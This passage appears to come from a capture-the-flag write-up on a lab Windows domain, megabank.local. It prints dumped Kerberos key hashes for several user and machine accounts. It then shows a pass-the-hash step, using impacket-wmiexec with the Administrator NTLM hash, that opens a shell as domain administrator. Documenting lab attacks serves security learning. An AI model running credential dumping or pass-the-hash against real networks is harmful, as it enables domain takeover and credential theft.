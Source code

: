 ```
megabank.local\melanie:aes128-cts-hmac-sha1-96:7c08d66da82cff1b52ce762bf4bee3bb
megabank.local\melanie:des-cbc-md5:fdb99de3a704fe32
megabank.local\zach:aes256-cts-hmac-sha1-96:4295505ced2fa3a04a0c57ba8824756cb7344c050a23cb1dfe0c96e479c4dda7
megabank.local\zach:aes128-cts-hmac-sha1-96:32fb18cc45a6f6d250f1998e1edf9b91
megabank.local\zach:des-cbc-md5:735b1c37fb68e0a1
megabank.local\simon:aes256-cts-hmac-sha1-96:22c8f32ed5a42a8d09d8a033aaf17d9b6e94454a274e084d1d26c304b8e67260
megabank.local\simon:aes128-cts-hmac-sha1-96:b3936c2e62cb02642c634cf7433e13ed
megabank.local\simon:des-cbc-md5:4c5ef42370026d86
megabank.local\naoki:aes256-cts-hmac-sha1-96:2a3bc7723b6f0190a8d4b101488e2307ca844496a0f086ca9e3667fad5cb23a1
megabank.local\naoki:aes128-cts-hmac-sha1-96:6873a96fdb162feb50a0372333f71ba8
megabank.local\naoki:des-cbc-md5:3292262c7592ea16
RESOLUTE$:aes256-cts-hmac-sha1-96:21945ed8d17ca1968a22564f45a453245b3348baf6d0696cea31d6ccec4bab7b
RESOLUTE$:aes128-cts-hmac-sha1-96:840edc4017d3f2bcfe854976c9ad2026
RESOLUTE$:des-cbc-md5:bc0804e35b3dbf64
MS02$:aes256-cts-hmac-sha1-96:09481277b7203cba30eb72cdfd03384cab3ec47c76b4c9cdd90fd9fd30d09c6b
MS02$:aes128-cts-hmac-sha1-96:dbbad923e27b1099854233b8bfb890ee
MS02$:des-cbc-md5:e6806b490d0b83b3
[*] Cleaning up...
```

&#x20;    6\. WMIEXEC

```
impacket-wmiexec megabank.local/Administrator@10.129.60.74 -hashes aad3b435b51404eeaad3b435b51404ee:fb3b106896cdaa8a08072775fbd9afe9

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
megabank\administrator
```

## Proofs
